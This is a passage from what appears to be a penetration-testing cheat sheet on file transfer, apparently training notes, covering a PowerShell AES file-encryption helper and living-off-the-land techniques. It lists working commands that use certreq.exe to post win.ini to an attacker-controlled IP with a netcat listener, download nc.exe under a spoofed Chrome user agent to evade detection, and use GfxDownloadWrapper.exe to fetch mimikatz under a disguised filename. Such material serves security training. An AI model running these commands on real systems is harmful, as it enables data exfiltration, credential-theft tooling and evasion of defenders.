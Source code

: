 ```ps1
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
```

### Import Module Invoke-AESEncryption.ps1
- `Import-Module .\Invoke-AESEncryption.ps1`

### File Encryption Example
- `Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt`

# Living off The Land
## Upload win.ini to our Pwnbox
- `certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini`

## File Received in our Netcat Session
- `sudo nc -lvnp 80`

# Evading Detection
## Request with Chrome User Agent
```
UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
## LOLBAS / GTFOBins
### Transferring File with GfxDownloadWrapper.exe
- `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`
